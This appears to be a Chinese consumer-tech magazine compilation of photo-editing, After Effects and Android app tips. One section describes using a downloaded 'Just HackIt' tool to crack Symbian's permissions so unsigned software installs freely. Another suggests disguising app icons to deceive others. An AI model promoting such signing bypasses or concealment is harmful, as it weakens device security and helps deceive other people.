大家在网上见过不少明星的素颜证件照吧？相信你一定见识了化妆的魅力。拍证件照化浓妆是不合适的，但淡妆是必须的！化一点淡淡的妆不会失真，反而会显得人很精神。对于男士，至少要给头发稍稍定型，提前修整胡须，并抹去面部多余的油脂。女士嘛，淡扫峨眉、略施脂粉和具有提亮的效果的口红，都可以让你看上去神采奕奕。看看化妆前后的对比图，啥也不说了！不管你是去相馆找人拍摄还是自己在家拍摄，以上小技巧都很有用哦，而且对于生活照也同样适用。最后祝愿大家反复实践，拍出满意的证件照~~


(文/继伟)

## 倾斜照片巧调正 原始尺寸不改变

摄影人士为捕捉镜头抓拍时，难免拍到倾斜的照片，有时倾斜角度还很大。使用PS进行角度调整后，照片四周会出现较大面积的白色连续区域，若进行裁剪既影响美观又缩小了图片，使用修补工具对边缘进行修补，就可以保留原始背景从而保持美感，且可使图片保留原始尺寸。第一步：使用PS打开原始图片，如图1所示。第二步：执行图像大小菜单，记录图像原始宽度、高度值，如图2所示。




第三步：选择标尺工具，在图中平行于海平面方向画一条直线，如图3所示。


第四步：执行旋转画布/任意角度菜单，如图4所示，角度就是上步画的线与真正的水平线的角度。调整后图像产生白色三角边缘，图像大小也发生了变化，如图5所示。







第五步：选择修补工具，修补选项设为源，画出待修补区域，拖动至相近的背景区域进行修补，如图6所示。若修补选项设为目标，则需画出并拖动相近的背景区域至待修补区域来修补。修好的图片如图7所示。第六步：执行图像大小菜单，设置图像原始宽度、高度值，如图8所示。这样图片便保持了原始尺寸。




(文/刘丽萍)

## 诡异的人体面具创意摄影

你见过眼睛浮在胳膊上、手掌上长出的鼻子，以及被撕裂的人脸吗？这就是现居纽约的艺术家Giuseppe的经典作品——人体面具摄影。他利用生动的后期合成技术，制作成诡异艺术作品。将摄影艺术与平面艺术完美结合在一起，非常有趣！
今天，让我们也来体验一把人体面具的创意摄影。

准备工作包括：相机一部（因为最终照片是两张照片进行合成，为防止抖动最好使用三脚架）、简单的背景和人物。女士的头发最好梳理得较为整洁便于后期制作。
然后开始拍摄！以效果图1为例，首先模特摆好姿势，以手臂挡住半个脸的姿势拍下第一张照片。然后在表情不变的情况下放下手臂拍下一张完全露五官的照片。
OK，进行后期制作。效果1和效果2的制作非常简单！因为光影相同，在PS中同时打开两张照片，以套索圈出五官完整照片中的右眼，然后放在另一张图的手臂遮挡下眼睛相应的位置，用背景橡皮擦擦拭，成功！
效果3和效果4的制作稍复杂，具体步骤如下。

### 小提示：

-   一定要保证头部和身体姿态完全不动的情况下，拍出两张照片，为了便于稳定，可靠墙站立。
-   衣着和头发一定要简单整洁，头发最好用定型，不要有一丝乱发；尽量让整个颈部和肩部漏出来，不要带首饰，否则会喧宾夺主，要让整个照片的焦点都集中在五官上。
-   虽然衣着和发型简单，但最好施以一点淡妆，这样能加深五官所带来的视觉冲击力，也使整个照片显得不那么素净。

撕开纸张面具的效果

1. 首先得拍摄两张头像素材，一张是五官清晰的头像，另一张是遮住脸部撕纸的照片，如图6、图7所示。在PS中把素材2拖到素材1的上层，这样素材2就自动命名为图层1了。把图层1的不透明度降低到50%左右，这样能看清下层的图案，移动图层1使上下层五官大体对准就可以了。如图8所示。
2. 这一步开始要制作纸张头像的效果。先把图层1的不透明度恢复到100%，再点击图层面板下面“添加矢量蒙版”的图标，为图层1添加蒙版。选择黑色画笔，不透明度为70%，硬度为30%，先把头像刷出来，然后前景色设置为白色，不透明度降低到5%，逐渐地把该隐藏的地方渐隐起来，给撕边留点白，效果更逼真些，这一步一定要有耐心。

3. 这步为纸张头像添加纹理。按下快捷键 Ctrl+Shift+Alt+E 盖印可见层，这个盖印层命名为“图层2”。复制一层图层2，命名为图层3，关掉图层前面的小眼睛隐藏该图层。选择图层2，打开“菜单--滤镜--纹理--纹理化”对话框，纹理选择“砂岩”，缩放设置为70%，凸现设置为1，光照设置为“上”，点击确定即可。具体如图9、图10所示。

4. 点击图层3并打开该图层前面的小眼睛，用图章修复工具把纸张撕口里面的头像去掉。选择图章工具，不透明度为100%，硬度为80%，按住Alt键，同时移动鼠标在背景附近点击一下取色，然后放开Alt键，移动鼠标到要覆盖的地方点击即可。重复这样的动作，直到满足所需的要求为止。尽量要覆盖得均匀些，覆盖的地方只要大致大于撕开的缺口范围就可以了。如图11所示。
5. 把图层3移动到图层2的下面，点击图层面板下面“添加矢量蒙版”图标，为图层2添加蒙版。用黑色画笔，不透明度为100%，硬度为90%，把纸张以外都涂掉，包括抓着纸张的手指也都要涂掉。这样就只保留图层2的纹理质感的纸张头像，其它的都是显示下面图层3的画面了。最后可以给纸张阴影处加深一下，完工。

### 戴面具效果

1. 打开素材1，复制一层，命名为图层1，用钢笔路径工具画出如图12所示的路径效果。
2. 转到路径面板，双击路径图标存储该路径为路径1，右键该路径选择“建立选区”，羽化半径为1个像素。确定后转到图层面板，按快捷键Ctrl+J复制一层，命名为图层2。
3. 按住Alt键，同时点击图层面板下面的创建调整层的图标，为图层2添加色相饱和度工具调整层。这里为何要按住Alt键呢？因为这样就只作用于图层2，否则正常添加工具调整层的话是作用于下面全部图层的。把饱和度降为-80，这时可以看到图层2的图像变成了灰色的效果了。点击色相饱和度调整图层后面的蒙版图标，用黑色画笔擦出原图的红嘴唇，因为工具调整层有自带的蒙版。如图13所示。
4. 选择图层2，打开“菜单--滤镜--纹理--纹理化”对话框，纹理选择“砂岩”，缩放设置为70%，凸现设置为1，光照设置为“上”，点击确定即可。为图层2的面具添加纹理质感。再点击图层面板下面“添加图层样式”图标，为图层2添加图层样式。在图层样式面板中勾选“投影”项，混合模式为“正片叠底”，不透明度为64%，角度为98度，距离为3个像素，扩展为3%，大小为3个像素。如图14、图15所示。

5. 为图层2添加蒙版，用黑色的画笔，不透明度100%，硬度90%左右，可以对图层2进行涂鸦，打造个性的面具效果。
6. 最后为面具加根带子绑在头上，找张鞋带孔和带子的图片素材添加上去，或者用画笔直接画两条带子也可以啦。
还有更多有创意难度更大的人体面具摄影，请到 http://bbs.voc.com.cn/topic-3304161-1-1.html 欣赏，大家可发挥想象力，拍出更多“诡异”的照片，嘻嘻！

> (文/小猴子 凡鱼)

## 碎片汇聚文字特效

我们在电视电影的片头中经常看到一些碎块刷地一下就组合成了文字。这是怎么做到的呢？其中的细节能否自行改变呢？今天就教大家用AE软件轻松实现。







老规矩，首先在AE中新建一个合成（New Composition），场景多大看你喜欢。在工具栏选择T按钮，在屏幕中输入“CFan欢迎你”（为了破碎效果的分散性，建议将字体大小、间距加大到100以上）。将此文字层嵌套（Ctrl+Shift+C），默认第二项不要变动（图1），接下来做字体的特效。



首先要给字体着色，单击菜单效果（effect）-生成（Generate）-渐变（Ramp），将黑色场设为亮紫色（可自选）；然后添加破碎效果，选择菜单效果（effect）-Simulation（仿真）-Shatter（粒子），在其下拉块中第一项View选择为最终渲染（Rendered），这样就可以实时观看特效的细微调整。将文字层复制（Ctrl+D），并取消复制后的文字特效（鼠标点中Ramp和Shatter，按键盘上Del即可删除），再次嵌套（Ctrl+Shift+C），默认第一项不要变动，将其命名为“取样”。双击进入这一层；添加一个固态层（New-Soild），颜色无所谓，给固态层添加分形噪波特效（Noise & Grain--Fractal Noise），将此固态层下拉到文字层下面，并取消文字层可见性（点击文字层前的眼镜图标），将固态层的亮度蒙版设为文字层（Luma Matte "文字"）（图2），这样文字就有了噪波纹理。



下面为文字染色。单击菜单效果（effect）-颜色校正（Color Correction）-彩色光（Colorama），将下拉块中Output Cycle中Interpolate Palette的勾选取消，这样字体的颜色就不是渐变色了（图3）。碎块可以更丰富。将Cycle Repetiti加大到5（或以上），这样做可以增加碎块的密度（图4），让最终特效更加绚丽。



回到Comp 1，将取样层放到文字层下面，并取消其可见性。在文字层的Shatter特效中，Custom Shatter Map选择“取样”层作为碎块蓝本（图5），如此文字就可以变成碎块了。但是我们要的结果是碎块聚合成文字，怎么办呢？右键点击文字层，选择Time-Time-Reverse Layer（时间反向层）即可逆转特效播放的时间顺序。大功告成！



(文/屈媛)

## 巧用微观肥皂泡 拍出神秘外太空照

近来各地频频爆出UFO照片，不管这些照片是真是假，确实引发了人们对外太空的向往。英国一位摄影师，通过近距离拍摄肥皂泡，营造了一幅幅宛如神秘的异度星球的照片。下面就让我们踏着他的足迹，一起巧用肥皂泡拍出绚烂的外太空照。



### 所需道具

-   一个吹泡泡工具：在街上很容易买到。尽量选择吹出的泡泡停留时间比较久的那种。条件允许，可使用不用牌子的皂液试试，因为泡泡的厚度不同会影响泡泡的颜色以及泡泡在在空气中持续的时间。
-   一个辅助吹泡泡人员：泡泡是转瞬即逝的，有人帮忙不断地吹出泡泡，才能使你专心拍摄。当然，也有可以自动吹泡泡的机器，不过一来价钱小贵，二来还需要寻找合适的悬挂地点。
-   至于照相器材：具有高速快门的单反相机当然成像最清晰，但一台小傻瓜机也完全可以胜任。

### 晴朗无风的天气

我们知道，泡泡要想呈现五颜六色的光斑，一定要接受阳光的照射。而由于泡泡的脆弱，外界的风力会使影响它的形状，泡泡漂移过快，也会增加拍摄的难度。所以最好选择一个晴朗无风的天气。



### 相机设置

相机都有微距模式，因为要近拍泡泡，所以提前要设好这个。如果想拍摄连续的泡泡，可以设为高速连拍。没有高速连拍的也没关系，尽量不要选择风大的天气，一样可以捕捉到泡泡的踪迹。ISO可设稍高些，100,200都可以。

### 测逆光拍摄

作为笔者的亲身体验，在背景光线较暗，而且光线从侧面照射时，容易拍摄到非常清晰的肥皂泡。也就是说让吹泡泡者背对阳光站立，但注意不要挡住投射到泡泡上的光线，拍摄者与泡泡方向垂直，也就是采用测逆光进行拍摄。还有，经验所得，在日出或日落时拍效果最佳。



### 选择暗色的背景

因为在户外拍摄，在阳光反射下泡泡上会反映出附近的景物，过于鲜艳的背景会掩盖泡泡的色彩，所以尽量选择黑色、灰色等暗色背景拍摄。



### 画龙点睛

现在，我们得到的只是一张绚丽的泡泡照，要使它看上去更像一个漂浮在宇宙中的星球，还需加点料！

打开ps，先将图片背景换成黑色，让泡泡就像浮在漆黑的太空中。接下来在PS中单击滤镜-渲染-光照效果，添加“柔化点光”效果。然后从网上下载星星笔刷（网上有很多），载入到画笔工具中，如图7所示。在笔刷列表中选择你喜欢的星光效果，用拾色器在泡泡表面选取一个绚丽的色彩，然后在泡泡表面单击，添加一两个星光效果，再对图片进行适当的裁切，如图8所示，一张诡秘的外星球照就生成了！



(文/马丁)

## 让照片中的落叶轻舞飞扬

深秋时节，很多人来到公园里拍摄美丽的落叶。为了捕捉到秋叶下落的过程，人们一次次将秋叶抛向空中。下面，我们就借助Photoshop制作照片动画效果，让你照片中的落叶轻舞飞扬起来。

### 制作思路

图1是一张秋叶飘落的生活照，抓拍了落叶瞬间的精彩画面。如果要把上面的叶子全部制作成落叶下的动画效果，难度偏大，也没这个必要，否则还不如去拍段录像来得自然和简单呢。我们要制作的是目前比较流行的照片动画效果，给静止的画面增加些趣味！比如，在图1凝固了飘叶的画面中，却有一片叶子在人们的注视下徐徐飘落，是否更有韵味呢？正所谓一叶知秋，哈哈\~\~\~



### 具体步骤

1. 打开原照，复制一层，命名为“原图备份”，关掉图层前面的小眼睛。首先让画面色彩再饱和艳丽些，更具有秋天的韵味。调色的方法很多，可使用那些调色工具，也可以使用图层叠加的方法，这张只要增加些色彩饱和度就可以了。实践证明用Lab曲线调整增加色彩饱和度比较理想，既简单效果又好。点击“菜单→图像→模式→Lab颜色”，会跳出提示问要不要拼合图层，选择“不拼合”。这样就进入了Lab模式，点击图层面板下面的曲线调整层图标，分别选择a通道和b通道，把对角线两头往中间拉，记住当这条线通过中间点时是只增加色彩饱和而没有改变色相。至于要拉进去多少，一格还是半格那就要看具体的图片了，这就是调色彩的浓度。现在就可以看到效果啦，如图2~图4所示。





2. 把曲线调整层和背景层合并，然后转成RGB模式，转换时也是要选择不拼合哈。现在我们想让原照中的树叶飘落下来，那么怎么才能让叶子动起来呢？我们知道两个帧就可以做出简单的动画效果，许多QQ动画表情就是这么做的。所谓的两个帧就是指不同状态的两个画面，在PS中也就是两个图层。下面先用套索工具圈选一片叶子然后复制一层，命名为图层1，用蒙版或橡皮擦把背景去掉，也就是所谓的抠图了，这里不必抠得太细腻哈，如图5所示。




3. 下面将把这片叶子从空中落下来的状态过程用图层表现出来，所用的图层（也就是后来用动画编辑时的帧）越多动作就越细腻，但是容量也会越大，所以必须权衡。把图层1的叶子移动到合适的位置，这就是落叶最终落下的位置了，如图6所示。



4. 复制图层1，命名为图层2，选用移动工具，点击键盘中的上下左右方向键，把图层2的叶子移动到合适的位置。记住我们现在是从下面往上做，也可以从上面往下做。然后复制图层2，命名为图层3，再移动到合适的位置，接下去就依次复制，再移动到合适的位置，并做些适当的变形，这样叶子在飘落的过程中会有些变化，效果更好，直到全部完成为止，如图7所示。
临时用个白色的背景大家就看得更清楚了。


5. 图8就是一片叶子下落的轨迹图了。接下来要开始编辑动画啦。打开“菜单→窗口→动画”，就会出现动画编辑面板，并有了第一帧。把所有图层前面的小眼睛都点击关掉，只显示背景层。点击动画面板下面“复制选中的帧”的图标，就有了第二帧，这时第二帧的画面和第一帧的一样。现在先要显示最上面下落的叶子，比如刚才我们做叶子轨迹时做了50个帧，那最上面叶子的帧就是图50了，这时就打开图50前面的小眼睛显示该图层，这样第二帧的画面就是显示背景图再加上最上面的一片叶子。

6. 继续点击动画面板下面“复制选中的帧”的图标，就有了第三帧。这时要打开图层49前面的小眼睛，同时要关掉图层50前面的小眼睛隐藏该图层，这样叶子就下移了一个位置。如果没有关掉图层50前面的小眼睛的话，那就显示两个位置的叶子了，只能是轨迹了，下面就依次类推，这样编辑直到显示图层1为止。

7. 现在就可以打开播放键看看落叶的动画效果了。每帧的速度可以点击帧下方的黑三角更改时间。由于考虑到落叶动作要循环往复，可以增加几帧把原先落叶的位置延伸到画面外。至此，一片叶子飘落的动画制作完毕。效果图请访问http://bbs.cfan.com.cn/thread-1443768-1-1.html欣赏。如果要做更多的叶子飘落就按照上述的方法添加，原理都是一样的。

### 小结：

本文详述了PS制作动画的原理以及具体的操作方法，相信大家都已经掌握了哈。大家别怕图层很多，操作起来并不复杂，基本上都是重复操作。只要明白动画制作原理再加上些自己的创意就OK啦，希望大家能举一反三制作出效果更好、更有创意的作品！
有何不明白之处请到Cfan图形图像论坛交流。
（文/凡鱼）

## 将女友照片变成独特剪影

### 先来看看对比图


提起女朋友，估计男同胞们都会承认一个共同点，那就是她们非常爱自拍，电脑里一定有一个文件夹里全是她们的自拍照。话说日常生活中需要我们男士时不时制造一点小惊喜，这样的日子才会有滋有味。不如就拿女朋友的自拍照做点小文章吧，用“美图秀秀”将她的自拍照打造成独特的剪影效果，看看能不能博她一笑！
经过剪影处理后原图杂乱的背景消失了，人物的五官更加深邃立体了，而且还增加了沉静的味道，相信你的她一定会喜欢。来看具体步骤吧。

1.  在美图秀秀中打开待处理照片，点击“艺术”特效分类，使用“黑白报纸”特效。
2.  点击“涂鸦笔”按钮，使用黑色的涂鸦笔涂抹杂乱的背景；再使用白色涂鸦笔，适当勾画人物轮廓线。
3.  点击“时尚”特效分类，使用透明度为60%的“夜景”特效；再点击“影楼”特效分类，使用50%透明度的“阿宝色”特效。
4.  最后点击“文字”→“输入静态文字”，添加文字内容即可。

相信对男同胞来说处理照片绝对是小case，但当你将专为Ta处理的照片展示给Ta的时候，你的女朋友一定会感受照片背后的用心，一起来制造生活中的小惊喜吧！

（文/林卯）








## 懒得运动 让手机MM陪你锻炼

小猴自从毕业上班之后，体重如决堤的大坝一发不可收拾，身体素质急剧下降。想锻炼吧，枯燥乏味总是坚持不下来。终于有一天，小猴“聘请”了一位可爱的MM教练，总算是把体重降下来了。别误会，这个MM不是真人，只要你用的是Android手机，谁都可以叫她来陪你锻炼！

像小猴一样的宅男最为头痛的就是缺乏锻炼身体的激情，如果你懒得外出打球运动，不妨学学他尝试一下“与MM一起玩”这款软件（下载地址：http://u.115.com/file/clcfc38w）。 这个软件会以动画的形式，让你与一个名叫“雏子”的动漫MM互动，陪你做俯卧撑、仰卧起坐和蹲起三种锻炼项目。

以仰卧起坐为例，两只手握紧手机置于眼前，随着身体一起起降，软件会通过手机内部的传感器，将每一次起降过程计数，统计你一共做了多少组标准的仰卧起坐，结束后还可以查询此次锻炼过程一共消耗了多少卡路里，从而起到监督健身的目的。你每做一次仰卧起坐，雏子MM也会随你一起做，让你时刻感到新鲜而忘记疲劳。如果雏子MM的计数信息有错误，点击“修正”按钮，可以手动增减到实际的锻炼次数。

俯卧撑的锻炼项目更有意思，你需要将手机放在地面上，每次做俯卧撑时，需要用你的嘴碰到手机屏幕，吻到雏子后才能给你记一次数。总之，雏子MM会伴随你一道完成所有的训练课程，她每次除了会忠实记录下次计算卡路里信息外，只要日日坚持还会秀出隐藏服装，够诱惑吧。

## 模仿三星TouchWiz 让你手机界面更绚丽

三星Galaxy系列手机都预装TouchWiz软件，桌面特效很炫，让只拥有里程碑手机的小文羡慕不已。某天小文从安卓市场找到了一款模仿三星TouchWiz界面的软件，只需简单几步设置就能让你的手机也能享用到TouchWiz！

首先我们需要下载“三星TouchWiz3.0汉化版”软件（下载地址：http://u.115.com/file/dnjejhwt）。在手机上安装下载的软件后，点击手机“首页”键（小房子图标）会弹出选择启动器的界面，选择“TwLauncher”后你的手机就会变成三星主题了。默认的首页还很简陋，需要我们再手动扮装一下。

先将默认桌面没用的插件删除，然后点击右下角“应用程序”按钮进入程序列表界面，接下来点击手机“菜单键”选择“编辑”，你会发现所有程序图标都出现了边框，按住某个程序图标，你就可以将它拖拽到任意位置，建议将拨号、信息、浏览器等最常用的程序添加到最下方固定的主菜单区。

接下来再点击手机的“返回键”退出程序编辑界面，此时长按某个程序的图标，就可以将其添加到桌面主页上了。文章标题下面的图片就是笔者最终的主页效果，很炫吧！光看桌面，和三星品牌的Android手机是不是一模一样了呢？再体验一下流畅度，是不是也比Android原生的桌面效果快很多！

(文/小文)

## 给你的手机装上开关吧

阿Q最近给女友买了一部Android手机，怎奈女友智商有限，经常会因为找不到某个功能设置而恼火，比如晚上想让手机进入飞行模式还需进入几层设置界面后才能实现。阿Q总因类似小功能而成为被宣泄对象，有什么方法可以让阿Q远离类似的悲剧呢？

Android系统最大的特色就是可以在桌面加入丰富的插件，阿Q所需要的就是为女友的手机添加管理小功能的插件开关。其实Android系统本身就自带“电源控制”插件，可惜只能提供WiFi、蓝牙、GPS、同步和背光这五种固定程序的开关，无法进行DIY。

如果你需要更多丰富的功能开关，建议使用“多键桌面开关”（SwitchProWidget，下载地址：http://u.115.com/file/bhnun5qt），几乎涵盖了包括闪光灯（需要手机自带LED闪光灯）在内的所有功能的快捷启动开关选项。

长按桌面空白位置，在弹出来的对话框中选择“小部件”后再选择“多键桌面开关”插件。接下来会进入插件设置界面，你可以选择按钮数量、背景颜色以及每个按钮的具体功能，设置完成后点击确定按钮即可。

如果你遇到无法使用移动网络或闪光灯功能，可以在程序列表中找到并运行“多键桌面开关”，在详细设置界面中选择“全局设置”，打开“使用APN开关”功能，并在闪光灯设置中的“选择设备类型”里面选择你手机的品牌，分别尝试一下直到可以使用闪光灯为止。

最终阿Q为女友手机添加了“移动数据、WiFi、蓝牙、GPS、飞行模式、震动模式以及闪光灯”这几种最常用功能，女友用着方便，阿Q也能踏踏实实做自己的事情了。

## 隔空取物 局域网拷贝文件很轻松

夜深了，网管小胖正准备在公司的宿舍内睡觉，突然同事打电话过来说急用一个资料，小胖想，这个资料在服务器中，办公室的大门早就锁上了，怎么办？还好小胖手上有一部Android系统的平板电脑，几下子就把资料拷贝出来了，看来“隔空取物”不是梦。

小胖的平板电脑和服务器在同一个局域网中，而公司大门附近也可以接收到公司内部的WiFi信号，利用这个WiFi网络就可以让平板电脑直接访问服务器，建立连接从而调取内部的文件。此次隔空取物需要借助“文件大师”（下载地址：http://apk.gfan.com/Product/App13296.html）的帮忙，运行该软件后进入到“网络”，在弹出的对话框中输入服务器的IP地址、用户名和密码，确认后就创建了该服务器的链接。

双击这个连接，一级一级进入到所需文件的位置，调出快捷菜单，选择“文件操作”，再选择“复制”，再转到本地（即平板电脑），调出快捷菜单，选择“粘贴”，很快就将选中的文件拷贝到平板电脑上了。

小提示：和文件大师相似的软件还有ES文件管理器，ES文件管理器还可以在电脑上管理平板电脑中的文件。

例如，对平板电脑中的文件进行编辑、删除和重命名等操作，这比直接在平板电脑上操作方便多了，因为电脑屏幕大，操作也更顺手，而且速度快。也可以在平板电脑上对电脑中的文件进行操作，例如上面的复制文件的操作，当然，前提是你要有访问电脑的账户和密码，原理和电脑间的访问一样。

(文/我心飞翔)

## 电子优惠券 要省钱更要环保

麦当劳、肯德基、必胜客，提到这些名字你会想到什么？没错，快餐！但是很多朋友也会想到优惠券，这些快餐的优惠券我们几乎都使用过，现在如果你有一部安卓或苹果手机，那你就可以向手握有限的纸质优惠券精打细算的日子说拜拜了，因为现在有了快餐电子优惠券，我们不但可以节约纸张，还可以节省金钱，轻松做“低碳达人”。

以麦当劳优惠券完美版为例，它可以说是一款android系统的必备软件，不需要打印可直接使用，选好你需要的套餐，向柜台服务员展示即可。

软件实测：作为一款实用性主打的软件，能否真正发挥作用是小编最关心的问题，谁都不想屁颠屁颠下载个软件去麦当劳想在女友面前炫耀一番结果被告知不能使用吧？于是小编特意前往数家麦当劳腐败了几次以检测软件是否真实有效。亲测结果——好使！而且根据网上查阅资料和他人使用经历后，基本能够确定只要是时间范围之内的优惠券，全国麦当劳都可以使用。

也有你会说，我不喜欢吃麦当劳，想吃肯德基，有电子优惠券吗？很抱歉的告诉你，肯德基所有优惠券都必须是纸质的才可以使用，也就是说你必须在网上找到肯德基的优惠券，下载后打印出来才行。

打开软件后，可以看到界面信息一目了然，你忽然会发现，自己前半辈子手握有限的纸质优惠券精打细算买汉堡的日子一去不复返了……因为优惠券和软件是分开的，所以安装软件之后第一次运行时需要点击屏幕下方的下载按钮，选择下载当前最新的优惠券，优惠券下载完毕之后会保存在本地，以后再打开这款软件，就无需再一次下载了。

点击“过滤”按钮，会弹出过滤菜单，我们可以根据自己的需要去快捷地过滤出自己需要的优惠产品。选中多个自己想要购买的产品，右下角会自动计算你的消费总额，点击“显示选中”按钮，会弹出消费总计菜单，详列了本次购买的所有食物和总价。之后按下菜单中的“显示图片”按钮，就会全屏显示你选中的优惠券，点餐时向服务员展示即可。

上面讲到的麦当劳优惠券完美版是基于安卓系统的一款软件，那使用苹果手机的朋友怎么办呢？也有优惠券！《蛐蛐优惠》就是一款基于ios系统的快餐优惠券软件，除了麦当劳、必胜客外，还有真功夫、小肥羊的优惠呢！

小编有话说：一款手机软件，让我们看到了低碳生活实际上既环保又能省钱。其实，在衣食住行各方面都能找到“减碳”的小窍门，平时看起来最“抠门”的生活方式，大多数都是绿色又环保的，可以说，低碳生活不但不会降低普通人的生活质量，反而能成为一种健康、时尚的生活方式。

## 桌面图标 就要与众不同

小孙家的宝宝已经一岁了，眼看这个每天都有变化的宝宝逐渐长大，小孙总喜欢拿手机给孩子随手拍照，然后将孩子的照片设置为手机桌面壁纸。可是手机桌面上的程序图标却经常会挡住孩子的脸，让小孙很烦恼。

其实，很多朋友都喜欢将自己妻子或孩子的照片放到手机桌面上做壁纸，可是桌面上的程序图标却遮挡了壁纸，影响了壁纸的整体效果。其实，最好的办法是让他们的照片变成图标，这样心爱的人的照片就永驻桌面了。

那就动手吧！首先我们要下载“桌面图标专家”这款手机软件，软件下载地址：http://www.waptw.com/soft/30384.html。

软件安装后，点击MENU—选择小插件—找到桌面图标专家。

这时可以看到桌面图标专家可以创建多种样式的图标形态，我们可以根据自己手机桌面的空余位置来选择合适的图标大小。

### 小技巧:

由于软件可以更改图标，所以我们如果不希望特别的软件在桌面被别人发现，就可以用这款软件移花接木，换个马甲！再将软件的名字重命名，就可以欺骗他人了。

我们选择一个2*1图标，点击进入图标设置界面。点击“选择图标”来选择一个图片文件，这里我们就可以选择自己妻子或者孩子的照片。

然后点击“选择操作”，这里给出了多种选则。一种是代替某个程序的自身图标，从而起到隐藏某个程序“真实面目”的目的。

我们选择替代“桌面图标专家”，可以看到“桌面图标专家”的图标已经被更改。另外可以选择“无操作”，无操作的图标就像一张图片一样摆放在桌面上，这也正是我们追求的目标。

### 小提示：图标的制作

由于软件没有裁剪功能，所以我们需要自己制作图标。其实图标的制作很简单，选择一张你喜欢的图片用PS工具中的裁剪工具裁剪出横向、纵向的图片保存就OK了，不过这里要说明下，图片最好是分辨率高清一点的，保存的格式最好为PNG格式，这样的效果才更好。

## 一步到位 Symbian手机不再需要证书签名

用诺基亚Symbian手机的朋友一定会非常讨厌“证书”这个东西，很多的软件都需要打上证书补丁才能安装在手机上。而每一台手机的证书都是不同的，要获得也不是很容易，所以非常繁琐。今天就给大家介绍一种方法，可以彻底破解掉Symbian手机的最高权限，不再需要证书这个东西。

### 首先需要两个准备工作：

- 为自己的手机申请证书文件，可以在“塞班网”的证书申请页面http://cer.dospy.com/得到，同时需要下载专用的签名工具。
- 前往http://tinyurl.com/3bfgdo4这个网址下载Just HackIt破解工具，注意由于现在Symbian系统有三大版本，下载时要选择符合自己手机的那个版本的破解工具。

Just HackIt破解工具下载完解压，会得到两个文件：1_CertUpdater.sisx和2_CertHack_Installer.sis，第一个文件可以直接安装，第二个文件则需要打上证书补丁（又叫签名）才能安装。

### 开始实战：

将两个文件都安装好之后，我们会在手机菜单中发现一个叫“HackIt”的图标，点击运行，屏幕下方会显示“Hacking…Please wait…”的字样。此时千万不要进行任何操作，静待其破解完成。过了一会，会出现提示“FileBrower S^3 Installed Install installserver?”，选择“确认”会显示“Successfully hacked!”，这就大功告成了。

以后安装任何软件都不需要证书了，大家就好好享用吧！ (文/小手)

## Android手机变身电脑幻灯片控制器

公司要对客户进行项目的推介，由我来通过幻灯片进行讲解，然而在播放幻灯片的过程中，总是要去点击鼠标或者键盘进行翻页操作，不仅麻烦，还老造成介绍的中断，要是手中握着的手机就能够远程操作计算机中的幻灯片，那该多方便啊！

Sensor mouse就是一款能够通过互联网远程控制计算机中的幻灯片播放的软件，该程序首先要求在计算机中安装其服务端程序，用于和Android手机中的控制端程序进行连接。服务端启动后，将会自动生成用于互联的IP地址，手机就是通过该IP地址连接至计算机中。

接下来在手机程序中输入指定IP地址并连接成功后，可以看到该程序提供了三种控制模式，包括鼠标控制模式、媒体播放控制模式和幻灯片控制模式。

选择幻灯片模式，就可以对计算机中播放的PPT幻灯片进行控制了，包括向前向后翻页、回首页、结束播放等控制按钮，并提供了鼠标触摸板，应用起来非常的灵敏和方便。软件是不是为你的工作带来很多的便捷呢？ (文/韩玉宁)

## Android手机为自己安排虚拟来电

手上正有好几件事情等着去完成，这个时候，同事却走过来找我聊天，为了同事关系我只好一边工作一边有一句没一句的搭话，心里却着急着工作，但同事却越聊越来劲，此时我是多么希望有个手机来电拯救我啊~

经过一番查找，终于发现Android系统下的程序，名称就叫做来电我闪闪，该程序界面简洁，使用简单。

程序中预设了一些时间，当然还可以根据需要自定义时间，以及设置来电铃声等等，设置完毕后，选择主界面的“救我”按钮后，就等待虚拟来电吧，接通效果与正常的来电一模一样。

以后，在一些无法忍受的场合，就可以发挥该程序的作用了，更绝的是，在选择接听虚拟来电后，对方还有声音发出，可以完美的模拟出一个来电，让你可以有充分的借口离开。 (文/韩玉宁)

## 缤纷旅途自驾游 我有“旅动缤”

双休日，我们几个朋友相约开着车子一起去天台旅游。车子在高速公路上飞快地行驶着，两个多小时后，我们就到了天台。车子开上了盘山公路，绕着山头一圈一圈地往上开，一边是高高的陡峭的石壁，另一边是低陷的峡谷。一个一个高高的山头被我们远远地甩在后面，我们身后的盘山公路像一条长龙在山间盘旋，又像是山间一条飘逸的带子，我不由被车窗外美丽的景色吸引住了。

但在美丽景色的引诱下，我们的车队就在一个交叉路口各奔东西了，慢慢地就分离开，越开越远。结果我和另一个朋友开到一个停车点才发现后面的两辆车没在我们后面跟着。和我一起的朋友就着急起来了，这么大的一个山区走散了可咋办呢？我看着他笑了下说：“幸好我们有事先准备了失散寻找装备。”我拿出手机在他面前得意地晃了两下，朋友带着有点疑问的表情对我说：“你现在电话联系也很难找的到啊，这么大的地方，交叉口又那么多个，怎么找？”“这你就不懂了吧，我不是拿手机来打电话给他们，而是通过我手机上的“旅动缤”这个软件来寻找他们，可别小看它哦，我给你操作下你就知道它的厉害咯！”朋友用疑惑的眼神看着我说“什么吕洞宾？我还铁拐李呢”

### 小知识：

“旅动缤”是一款基于GPS位置信息的工具软件，组织者可以发起一个“活动”并邀请好友加入，好友同意后便可进入活动。活动中的所有人均可通过地图查看其他活动成员的实时位置，为您的旅游、聚会活动、自驾游、找人带来极大便利。说白点呢它就是基于lbs的手机定位软件。

登陆旅动缤导航系统，在里面可以看到我们目前所处的精确位置，然后在里面发起了一个活动，再添加和我们失散朋友的手机号码，然后发出邀请（需要事先说好万一走散就使用这手机软件寻找对方）朋友很快接受了邀请，最后在软件地图里选择了一个我们都知道走的集合点，于是大家相约根据导航路线到此集合点集中。朋友在旁看着我的操作以及我的说明，不禁大叫到：“哇！你们什么时候弄了这玩意，太好用了吧！以后出来玩根本就不用担心走散了嘛。”“是的，有它之后我们就可以手机定位找人咯，这就类似gps导航软件，懂了吧！”最终我们按照旅动缤里设置的集合点行驶去，很快我们车队又集合到一起了。

通过这次的自驾游我和朋友们都认为出行旅游如果碰到麻烦时有个给力的手机导航软件是多么有利于自己旅途省心，相信不少的自驾游车友都遇到与同伴在景点失散的情况。当遇到这种情况时是比较麻烦的，然而有了“旅动缤”这款安卓手机应用软件之后大家以后就可以完全没必要担心了。

## 大板凳 论坛看帖更方便

